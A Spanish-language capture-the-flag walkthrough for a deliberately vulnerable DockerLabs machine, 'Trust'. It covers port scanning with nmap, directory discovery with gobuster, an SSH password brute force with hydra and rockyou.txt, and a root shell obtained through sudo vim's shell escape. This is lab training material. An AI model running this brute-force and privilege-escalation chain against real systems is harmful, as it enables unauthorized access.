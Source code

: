 # Maquina Trust - DockerLabs

* Nivel : Muy Fácil
* Máquina : Linux
* Útil para el Ejptv2
* Ip Maquina : 172.18.0.2

Instalar y desplegar el docker con : sudo bash auto_deploy.sh trust.tar

## Escaneo de puertos

```bash
sudo nmap -A -sV -O -T4 -p- -Pn 172.18.0.2
```
```bash
Nmap scan report for 172.18.0.2
Host is up (0.000070s latency).
Not shown: 65533 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 9.2p1 Debian 2+deb12u2 (protocol 2.0)
| ssh-hostkey: 
|   256 19:a1:1a:42:fa:3a:9d:9a:0f:ea:91:7f:7e:db:a3:c7 (ECDSA)
|_  256 a6:fd:cf:45:a6:95:05:2c:58:10:73:8d:39:57:2b:ff (ED25519)
80/tcp open  http    Apache httpd 2.4.57 ((Debian))
|_http-title: Apache2 Debian Default Page: It works
|_http-server-header: Apache/2.4.57 (Debian)
MAC Address: 02:42:AC:12:00:02 (Unknown)
No exact OS matches for host (If you know what OS is running on it, see https://nmap.org/submit/ ).
TCP/IP fingerprint:
OS:SCAN(V=7.94SVN%E=4%D=6/26%OT=22%CT=1%CU=37096%PV=Y%DS=1%DC=D%G=Y%M=0242A
OS:C%TM=685D2238%P=x86_64-pc-linux-gnu)SEQ(SP=FC%GCD=1%ISR=10B%TI=Z%CI=Z%II
OS:=I%TS=A)SEQ(SP=FD%GCD=1%ISR=10B%TI=Z%CI=Z%II=I%TS=A)OPS(O1=M5B4ST11NW7%O
OS:2=M5B4ST11NW7%O3=M5B4NNT11NW7%O4=M5B4ST11NW7%O5=M5B4ST11NW7%O6=M5B4ST11)
OS:WIN(W1=7C70%W2=7C70%W3=7C70%W4=7C70%W5=7C70%W6=7C70)ECN(R=Y%DF=Y%T=40%W=
OS:7D78%O=M5B4NNSNW7%CC=Y%Q=)T1(R=Y%DF=Y%T=40%S=O%A=S+%F=AS%RD=0%Q=)T2(R=N)
OS:T3(R=N)T4(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T5(R=Y%DF=Y%T=40%W=0%
OS:S=Z%A=S+%F=AR%O=%RD=0%Q=)T6(R=Y%DF=Y%T=40%W=0%S=A%A=Z%F=R%O=%RD=0%Q=)T7(
OS:R=Y%DF=Y%T=40%W=0%S=Z%A=S+%F=AR%O=%RD=0%Q=)U1(R=Y%DF=N%T=40%IPL=164%UN=0
OS:%RIPL=G%RID=G%RIPCK=G%RUCK=G%RUD=G)IE(R=Y%DFI=N%T=40%CD=S)

Network Distance: 1 hop
Service Info: OS: Linux; CPE: cpe:/o:linux:linux_kernel
```
Estan abiertos los puertos 22 ssh y 80 http. 

## Escaneo web

```bash
gobuster dir -u http://172.18.0.2/ -w /usr/share/wordlists/dirb/big.txt -t 30 -x php,txt,htm
```
```bash
===============================================================
Gobuster v3.6
by OJ Reeves (@TheColonial) & Christian Mehlmauer (@firefart)
===============================================================
[+] Url:                     http://172.18.0.2/
[+] Method:                  GET
[+] Threads:                 30
[+] Wordlist:                /usr/share/wordlists/dirb/big.txt
[+] Negative Status codes:   404
[+] User Agent:              gobuster/3.6
[+] Extensions:              php,txt,htm
[+] Timeout:                 10s
===============================================================
Starting gobuster in directory enumeration mode
===============================================================
/.htpasswd            (Status: 403) [Size: 275]
/.htaccess.htm        (Status: 403) [Size: 275]
/.htaccess.txt        (Status: 403) [Size: 275]
/.htaccess            (Status: 403) [Size: 275]
/.htaccess.php        (Status: 403) [Size: 275]
/.htpasswd.txt        (Status: 403) [Size: 275]
/.htpasswd.php        (Status: 403) [Size: 275]
/.htpasswd.htm        (Status: 403) [Size: 275]
/secret.php           (Status: 200) [Size: 927]
/server-status        (Status: 403) [Size: 275]
Progress: 81876 / 81880 (100.00%)
===============================================================
Finished
===============================================================
```
Hay una ruta /secret.php . Dentro hay un mensaje, que nos da un nombre Mario. Con el que voy a intentar entrar al ssh con hydra.

## SSH - Hydra

```bash
hydra -l mario -P /usr/share/wordlists/rockyou.txt -t 4 172.18.0.2 ssh
```
```bash
[DATA] max 4 tasks per 1 server, overall 4 tasks, 14344399 login tries (l:1/p:14344399), ~3586100 tries per task
[DATA] attacking ssh://172.18.0.2:22/
[22][ssh] host: 172.18.0.2   login: mario   password: chocolate
1 of 1 target successfully completed, 1 valid password found
```
El hydra a encontrado la password chocolate

Entrar con el user mario.

```bash
ssh mario@172.18.0.2 
```
Hacer un sudo -l para ver si mario tiene algún permiso para ejecutrar algún comando como root.
```bash
mario@085a3346ac1b:~$ sudo -l
[sudo] password for mario: 
Matching Defaults entries for mario on 085a3346ac1b:
    env_reset, mail_badpass, secure_path=/usr/local/sbin\:/usr/local/bin\:/usr/sbin\:/usr/bin\:/sbin\:/bin, use_pty

User mario may run the following commands on 085a3346ac1b:
    (ALL) /usr/bin/vim

```
Mario puede usar el vim con permisos de root, entonces buscar alguna vulnerabilidad con el sudo para escalar a root, uso la web GTFobins

```bash
mario@085a3346ac1b:~$ sudo /usr/bin/vim -c ':!/bin/sh'

# whoami
root

```
He encontrado este comando para ser root. Y ya esta.


